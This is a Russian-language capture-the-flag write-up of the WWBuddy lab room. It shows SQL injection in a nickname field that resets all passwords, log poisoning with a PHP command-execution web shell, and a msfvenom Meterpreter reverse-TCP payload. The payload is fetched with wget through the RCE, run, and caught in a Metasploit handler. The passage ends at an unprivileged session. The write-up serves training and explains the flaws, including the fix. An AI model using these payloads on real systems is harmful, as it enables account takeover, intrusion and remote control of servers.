







# WWBuddy


---

### 🇬🇧 Task Description

Exploit this website still in development and root the room.

**World Wide Buddy** is a site for making friends, but it's still unfinished and it has some security flaws.

Deploy the machine and find the flags hidden in the room!

This is my first room, hope you like it :D

### 🇷🇺 Описание задачи

Нужно проэксплуатировать сайт, который всё ещё находится в разработке, и получить root-доступ на машине.

**World Wide Buddy** — это сайт для поиска друзей, но он ещё не закончен и содержит уязвимости.

Нужно развернуть машину и найти спрятанные в комнате флаги.

Это первая комната автора, так что проверим, какие ошибки разработки удастся найти.

---

### 🔍 Шаг 1: Разведка (Reconnaissance)

Первым делом проверим доступность целевой машины и определим открытые сервисы.

#### ⚡ Базовое сканирование портов

Начинаем с обычного `nmap`-сканирования популярных портов:

```bash
nmap 10.129.177.154
```

**Описание команды:**
- `nmap` — инструмент для сетевой разведки и поиска открытых портов.
- `10.129.177.154` — IP-адрес целевой машины.

**Результат:**

```text
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-29 19:17 +0300
Nmap scan report for 10.129.177.154
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Обнаружено два открытых порта:

| Порт | Сервис | Примечание |
|------|--------|------------|
| 22/tcp | SSH | Возможная точка входа после получения учётных данных |
| 80/tcp | HTTP | Веб-приложение WWBuddy |

Пока всё выглядит стандартно: SSH и веб-сервер. Переходим к изучению сайта.

---

### 🌐 Шаг 2: Первичный осмотр веб-приложения

Открываем сайт в браузере:

```text
http://10.129.177.154/
```

Видим форму входа:



На странице есть:

- форма **Login**;
- поля `Username` и `Password`;
- кнопка `Login`;
- ссылка **Sign up now** для регистрации нового аккаунта.

Так как по описанию комната про сайт, который всё ещё находится в разработке, интерес представляют не только форма входа, но и регистрация, возможные ошибки логики, утечки данных и debug/development-функциональность.

---

### 💉 Шаг 3: SQL-инъекция в nickname и массовая смена паролей

При исследовании функционала регистрации и изменения профиля обнаружилась критическая логическая ошибка в работе с базой данных.

Атака выглядит так:

1. Регистрируем нового пользователя.
2. В качестве nickname указываем SQL-инъекцию:

```text
' or 1=1 -- -
```

3. После регистрации меняем пароль этому пользователю на известный нам пароль.
4. Из-за ошибки в SQL-запросе пароль меняется не только у нашего пользователя, а у всех пользователей в базе.
5. После этого можно войти под существующим пользователем `WWBuddy`, используя наш новый пароль.

---

#### 🧠 В чём суть ошибки

Судя по поведению приложения, nickname пользователя небезопасно подставляется в SQL-запрос при смене пароля. Уязвимый запрос мог выглядеть примерно так:

```sql
UPDATE users
SET password = '<new_password>'
WHERE nickname = '<nickname>';
```

Если обычный nickname, например:

```text
anton
```

то итоговый запрос безопасно обновляет только одну запись:

```sql
UPDATE users
SET password = 'newpass123'
WHERE nickname = 'anton';
```

Но если nickname равен:

```text
' or 1=1 -- -
```

то SQL-запрос превращается примерно в:

```sql
UPDATE users
SET password = 'newpass123'
WHERE nickname = '' or 1=1 -- -';
```

Разбираем, что произошло:

- первая кавычка в payload закрывает строку `nickname = ''`;
- `or 1=1` добавляет условие, которое всегда истинно;
- `-- -` комментирует остаток SQL-запроса, включая лишнюю закрывающую кавычку.

В итоге условие `WHERE` становится истинным для всех строк:

```sql
WHERE nickname = '' OR 1=1
```

А значит, команда `UPDATE` применяет новый пароль ко всем пользователям в таблице.

---

#### ⚠️ Почему это особенно опасно

Это ошибка сразу двух уровней:

1. **SQL Injection** — пользовательский ввод попадает в SQL-запрос без безопасной параметризации.
2. **Опасная бизнес-логика** — смена пароля привязана к изменяемому полю `nickname`, а не к надёжному идентификатору текущей сессии или `user_id`.

Правильная логика должна быть такой:

```sql
UPDATE users
SET password = ?
WHERE id = ?;
```

Где:

- `password` передаётся как параметр, а не склеивается строкой;
- `id` берётся из серверной сессии, а не из nickname, который контролирует пользователь.

---

#### 🚪 Вход под пользователем WWBuddy

После массовой смены паролей пробуем войти под известным пользователем:

```text
Username: WWBuddy
Password: <наш новый пароль>
```

Так как пароль был изменён у всех пользователей, вход под `WWBuddy` проходит успешно.

✅ Получили доступ к чужой учётной записи через SQL-инъекцию в nickname и некорректную логику смены пароля.

---

### 🗂️ Шаг 4: Поиск скрытых директорий через gobuster

После получения доступа к учётным записям продолжаем веб-разведку и ищем скрытые директории:

```bash
sudo gobuster dir -u http://10.129.177.154 -w ~/SecLists/Discovery/Web-Content/common.txt
```

**Описание команды и флагов:**
- `sudo` — запуск с повышенными правами на локальной машине. Для `gobuster` обычно не обязателен, но в данном запуске использовался.
- `gobuster` — инструмент для перебора директорий и файлов на веб-сервере.
- `dir` — режим directory/file brute force.
- `-u http://10.129.177.154` — базовый URL целевого сайта.
- `-w ~/SecLists/Discovery/Web-Content/common.txt` — словарь путей для перебора.

**Результат:**

```text
.htpasswd            (Status: 403) [Size: 279]
.htaccess            (Status: 403) [Size: 279]
.hta                 (Status: 403) [Size: 279]
admin                (Status: 301) [Size: 316] [--> http://10.129.177.154/admin/]
api                  (Status: 301) [Size: 314] [--> http://10.129.177.154/api/]
change               (Status: 301) [Size: 317] [--> http://10.129.177.154/change/]
images               (Status: 301) [Size: 317] [--> http://10.129.177.154/images/]
index.php            (Status: 302) [Size: 7740] [--> /login]
js                   (Status: 301) [Size: 313] [--> http://10.129.177.154/js/]
login                (Status: 301) [Size: 316] [--> http://10.129.177.154/login/]
profile              (Status: 301) [Size: 318] [--> http://10.129.177.154/profile/]
register             (Status: 301) [Size: 319] [--> http://10.129.177.154/register/]
server-status        (Status: 403) [Size: 279]
styles               (Status: 301) [Size: 317] [--> http://10.129.177.154/styles/]
```

Интересные пути:

| Путь | Статус | Почему интересен |
|------|--------|------------------|
| `/admin/` | `301` | Возможная админ-панель |
| `/api/` | `301` | API может раскрывать данные или endpoints |
| `/change/` | `301` | Функционал смены данных/пароля |
| `/profile/` | `301` | Профиль пользователя |
| `/register/` | `301` | Регистрация аккаунтов |
| `.htaccess`, `.htpasswd`, `.hta` | `403` | Файлы существуют или защищены правилами Apache |

Особенно интересна директория `/admin/`.

---

#### 🔐 Проверка доступа к `/admin/`

Пробуем открыть:

```text
http://10.129.177.154/admin/
```

С разными сессиями доступ ведёт себя по-разному. У пользователя **Henry** страница открылась:



На странице видим сообщение:

```text
Hey Henry, i didn't made the admin functions for this page yet,
but at least you can see who's trying to sniff into our site here.
```

И ниже отображается список попыток доступа:

```text
192.168.0.139 2020-07-24 22:54:34 WWBuddy fc18e5f4aa09bbb7fdedf5e277dda00
192.168.0.139 2020-07-24 22:56:09 Roberto b5ea6181006480438019e76f8100249e
```

Это важная находка:

- `/admin/` не является полностью готовой админкой, но показывает служебную информацию;
- доступ к ней зависит от пользователя или роли в сессии;
- Henry имеет достаточно прав, чтобы видеть эту страницу;
- страница раскрывает имена пользователей и хеши/токены, связанные с попытками доступа.

С учётом описания комнаты (“сайт всё ещё в разработке”) это выглядит как недоделанная debug/admin-функция, которую забыли закрыть или неправильно ограничили по ролям.

---

### 🐚 Шаг 5: PHP injection через admin-лог и выполнение команд

Страница `/admin/` показывает список пользователей, которые пытались попасть в админку. В этом списке отображаются данные вроде:

```text
IP address  date/time  username  hash
```

То есть приложение где-то сохраняет попытку доступа, а потом выводит её на админской странице. Это важная поверхность атаки: если в лог попадает контролируемое нами значение, например nickname, можно проверить, обрабатывается ли оно безопасно.

Пробуем использовать PHP payload в nickname:

```php
<?php system($_GET["cmd"]); ?>
```

После этого снова провоцируем попадание нашего пользователя в список попыток доступа к `/admin/`, а затем открываем:

```text
http://10.129.177.154/admin/?cmd=id
```



В ответе появляется:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Это подтверждает выполнение команды `id` на сервере от пользователя `www-data`.

---

#### 🧠 Почему это сработало

Если бы приложение просто выводило nickname как обычный текст в HTML, PHP-код не выполнился бы. Браузер увидел бы строку:

```php
<?php system($_GET["cmd"]); ?>
```

как текст, а не как исполняемый код.

Но здесь поведение другое: код выполнился на стороне сервера. Значит, данные из admin-лога, судя по результату, попадают в PHP-контекст до отдачи страницы клиенту. Возможный сценарий:

1. Приложение записывает попытки доступа в файл или шаблон.
2. В этот файл попадает наш nickname.
3. Файл имеет PHP-контекст или подключается через `include`/`require`.
4. PHP-интерпретатор встречает `<?php ... ?>` и выполняет код.

Это похоже на **log poisoning**: мы “отравляем” лог PHP-кодом, а затем заставляем сервер обработать этот лог как PHP.

---

#### 🔎 Разбор payload

Payload:

```php
<?php system($_GET["cmd"]); ?>
```

Что здесь происходит:

- `<?php ... ?>` — открывающий и закрывающий PHP-теги. Всё внутри них выполняется PHP-интерпретатором на сервере.
- `$_GET` — суперглобальный массив PHP, который содержит параметры из URL query string.
- `$_GET["cmd"]` — значение параметра `cmd` из URL.
- `system(...)` — PHP-функция, которая выполняет системную команду на сервере и выводит результат в HTTP-ответ.

Когда мы открываем:

```text
/admin/?cmd=id
```

PHP видит:

```php
$_GET["cmd"] = "id"
```

И выполняет:

```php
system("id");
```

Поэтому в ответе появляется результат команды:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Если заменить параметр `cmd`, сервер выполнит другую команду. Например:

```text
/admin/?cmd=whoami
/admin/?cmd=pwd
/admin/?cmd=ls
```

Команда выполняется не в браузере и не в Burp, а именно на целевой машине, потому что PHP-код обрабатывается сервером до отправки HTML-ответа клиенту.

---

#### 🧾 Проверка в Burp Suite и первый флаг

Запрос также виден в Burp Suite:

```http
GET /admin/?cmd=id HTTP/1.1
Host: 10.129.177.154
Cookie: PHPSESSID=...
```



В ответе Burp видно:

- HTTP `200 OK`;
- HTML-ответ админской страницы;
- результат выполнения команды `id`;
- первый флаг, спрятанный в HTML-комментарии.

Флаг в отчёте замазываем:

```text
THM{********************************}
```

✅ Получили первый флаг и подтвердили удалённое выполнение команд от пользователя `www-data`.

---

### 📦 Шаг 6: Подготовка Meterpreter payload и загрузка на машину

После подтверждения RCE через параметр `cmd` можно выполнять отдельные команды на сервере. Команда `id` полезна для проверки, но для дальнейшей работы удобнее получить полноценную сессию. Для этого подготавливаем исполняемый файл, который при запуске подключится обратно к нашей машине.

#### 🧨 Создание payload через msfvenom

На атакующей машине создаём ELF-файл:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.131.156 LPORT=4444 -f elf -o RCE
```

**Результат:**

```text
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: RCE
```

**Разбор команды:**

- `msfvenom` — утилита из Metasploit Framework для генерации payload-файлов.
- `-p linux/x64/meterpreter/reverse_tcp` — выбираем payload:
  - `linux` — payload для Linux;
  - `x64` — архитектура 64-bit;
  - `meterpreter` — расширенная интерактивная сессия Metasploit;
  - `reverse_tcp` — соединение будет установлено от целевой машины к нам.
- `LHOST=192.168.131.156` — наш IP-адрес, куда целевая машина должна подключиться обратно.
- `LPORT=4444` — порт, на котором мы будем ждать подключение.
- `-f elf` — формат выходного файла. Для Linux исполняемые файлы обычно имеют формат `ELF`.
- `-o RCE` — имя файла, который будет создан.

Сообщения `No platform was selected` и `No arch selected` не являются ошибкой. `msfvenom` сам понял платформу и архитектуру из выбранного payload: Linux x64.

Проверяем, что файл появился:

```bash
ls
```

```text
RCE
```

---

#### 🌍 Раздача файла через HTTP-сервер

Чтобы целевая машина могла скачать payload, поднимаем простой HTTP-сервер в директории, где лежит `RCE`:

```bash
python3 -m http.server 80
```

**Разбор команды:**

- `python3` — запускаем Python 3.
- `-m http.server` — ключ `-m` говорит Python запустить модуль как программу. Модуль `http.server` поднимает простой веб-сервер и отдаёт файлы из текущей директории.
- `80` — порт, на котором будет слушать сервер.

Теперь файл доступен по адресу:

```text
http://192.168.131.156/RCE
```

На этом этапе важно, чтобы `LHOST` в payload и IP в ссылке для скачивания были нашим VPN/IP-адресом, доступным с машины TryHackMe.

---

#### 🧩 Почему нужен Burp Decoder

Команды мы передаём через URL-параметр:

```text
/admin/?cmd=<команда>
```

Но URL имеет свои специальные символы. Например:

- пробел разделяет части команды, но в URL его нельзя передавать как обычный пробел;
- `/` используется в путях URL;
- `:` используется после схемы `http:`;
- `+` в query string часто интерпретируется как пробел;
- `&` разделяет параметры запроса.

Поэтому команду лучше URL-encode'ить перед отправкой. Для этого удобно использовать **Burp Decoder**.

В Decoder вводим команду:

```bash
wget 192.168.131.156/RCE
```



После URL encoding получаем строку:

```text
%77%67%65%74%20%31%39%32%2e%31%36%38%2e%31%33%31%2e%31%35%36%2f%52%43%45
```

Это та же самая команда, только записанная в формате, безопасном для передачи внутри URL.

---

#### ⬇️ Скачивание payload через RCE

Дальше отправляем запрос через **Burp Repeater**:

```http
GET /admin/?cmd=%77%67%65%74%20%31%39%32%2e%31%36%38%2e%31%33%31%2e%31%35%36%2f%52%43%45 HTTP/1.1
Host: 10.129.177.154
Cookie: PHPSESSID=...
```



На сервере Python видим входящий запрос:

```text
::ffff:10.129.177.154 - - [29/May/2026 20:31:27] "GET /RCE HTTP/1.1" 200 -
```

Это очень важное подтверждение:

- `10.129.177.154` — целевая машина;
- `"GET /RCE HTTP/1.1"` — она запросила наш payload;
- `200` — файл успешно отдан HTTP-сервером.

То есть команда `wget` выполнилась на целевой машине, и файл `RCE` был скачан.

---

#### 🔐 Выдача прав на выполнение

После скачивания проверяем содержимое текущей директории командой:

```text
/admin/?cmd=ls -la
```

На скриншоте видно, что файл `RCE` появился, но сначала у него нет execute-бита:

```text
-rw-r--r-- 1 www-data www-data 250 May 29 17:24 RCE
```

Это означает:

- `rw-` — владелец может читать и писать файл;
- `r--` — группа может только читать;
- `r--` — остальные могут только читать;
- буквы `x` нет, значит файл нельзя запустить как программу.

Добавляем право на выполнение:

```bash
chmod +x RCE
```

Так как команда снова передаётся через URL, её тоже кодируем через Burp Decoder и отправляем через Repeater:

```text
/admin/?cmd=chmod%20%2Bx%20RCE
```

Проверяем ещё раз через `ls -la`:



Теперь у файла появились `x`:

```text
-rwxr-xr-x 1 www-data www-data 250 May 29 17:24 RCE
```

Это значит, что payload готов к запуску на целевой машине.

---

### 🎧 Шаг 7: Запуск Metasploit handler и получение Meterpreter-сессии

Файл `RCE` уже лежит на целевой машине и имеет права на выполнение. Но если просто запустить его без подготовленного listener на нашей стороне, обратное подключение некуда будет принять. Поэтому сначала поднимаем обработчик в Metasploit.

#### 🧠 Что такое Meterpreter

**Meterpreter** — это payload Metasploit, который после запуска на целевой машине создаёт интерактивную сессию между атакующей машиной и целью.

В отличие от обычного reverse shell, Meterpreter даёт встроенные команды для работы с системой:

- `ls`, `cd`, `pwd` — навигация по файловой системе;
- `getuid` — посмотреть, от какого пользователя работает сессия;
- `sysinfo` — получить информацию об ОС и архитектуре;
- `shell` — перейти в обычную системную shell-сессию;
- `upload`, `download` — передавать файлы.

Важно: Meterpreter — это не обычный `/bin/bash`. Поэтому команда `id` внутри Meterpreter не сработала:

```text
meterpreter > id
[-] Unknown command: id. Run the help command for more details.
```

Для проверки пользователя в Meterpreter используется команда:

```text
getuid
```

А если нужны обычные Linux-команды вроде `id`, `whoami`, `ps`, можно выполнить:

```text
shell
```

и уже внутри системной shell использовать привычные команды.

---

#### 🧩 Настройка handler

Запускаем Metasploit:

```bash
msfconsole -q
```

**Разбор команды:**

- `msfconsole` — основная консоль Metasploit Framework.
- `-q` — quiet mode, запуск без большого стартового баннера.

Выбираем модуль:

```text
use exploit/multi/handler
```

`exploit/multi/handler` — это не эксплойт против конкретной уязвимости, а универсальный listener. Он ждёт входящее соединение от payload, который мы заранее создали через `msfvenom`.

Дальше указываем тот же payload, который использовали при генерации файла `RCE`:

```text
set payload linux/x64/meterpreter/reverse_tcp
```

Это критично: handler должен понимать, какой именно payload к нему подключится. Если в `msfvenom` был `linux/x64/meterpreter/reverse_tcp`, то и в handler должен быть такой же payload.

Указываем адрес нашей машины:

```text
set lhost 192.168.131.156
```

`LHOST` здесь должен совпадать с адресом, который был указан при генерации payload:

```text
LHOST=192.168.131.156
```

Проверяем настройки:

```text
options
```

**Результат:**

```text
Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.131.156  yes       The listen address
   LPORT  4444             yes       The listen port
```

Здесь важно:

- `LHOST` — наш IP, на который цель будет подключаться;
- `LPORT` — порт `4444`, он совпадает с payload, созданным через `msfvenom`.

Запускаем listener:

```text
run
```

Metasploit начинает ждать подключение:

```text
[*] Started reverse TCP handler on 192.168.131.156:4444
```

---

#### 🚀 Запуск payload через RCE

Теперь, когда listener уже ждёт соединение, запускаем файл на целевой машине через нашу RCE-точку:

```text
http://10.129.177.154/admin/?cmd=./RCE
```

Почему именно `./RCE`:

- `RCE` лежит в текущей директории `/var/www/html/admin`;
- `./` означает “запусти файл из текущей директории”;
- без `./` Linux будет искать команду `RCE` в директориях из переменной `PATH`, а текущая директория обычно туда не входит.

После запуска payload целевая машина подключается обратно к нашему handler:

```text
[*] Sending stage (3090404 bytes) to 10.129.177.154
[*] Meterpreter session 1 opened (192.168.131.156:4444 -> 10.129.177.154:53246) at 2026-05-29 20:41:19 +0300
```

Разбираем строки:

- `Sending stage` — Metasploit отправляет вторую часть Meterpreter payload. Маленький файл `RCE` выступает как stager: он подключается к нам и принимает основной stage.
- `Meterpreter session 1 opened` — сессия успешно открылась.
- `192.168.131.156:4444` — наша сторона, где слушал handler.
- `10.129.177.154:53246` — целевая машина и её исходящий порт подключения.

---

#### 🔎 Первичная проверка Meterpreter-сессии

Проверяем текущую директорию:

```text
meterpreter > ls
```

**Результат:**

```text
Listing: /var/www/html/admin
============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  250   fil   2026-05-29 20:24:29 +0300  RCE
100664/rw-rw-r--  318   fil   2026-05-29 20:05:26 +0300  access.log
100664/rw-rw-r--  762   fil   2020-07-25 01:52:20 +0300  index.php
```

Видим, что сессия стартовала в директории `/var/www/html/admin`, где лежат:

- `RCE` — наш загруженный payload;
- `access.log` — файл, через который ранее сработало PHP/log poisoning;
- `index.php` — файл админской страницы.

Переходим выше:

```text
meterpreter > cd ..
meterpreter > ls
```

Видим структуру веб-приложения:

```text
Listing: /var/www/html
======================

admin
api
change
chat.php
config.php
footer.html
header.html
images
index.php
js
login
logout.php
profile
register
styles
```

Это подтверждает, что мы находимся в корне веб-приложения.

Проверяем пользователя:

```text
meterpreter > getuid
```

```text
Server username: www-data
```

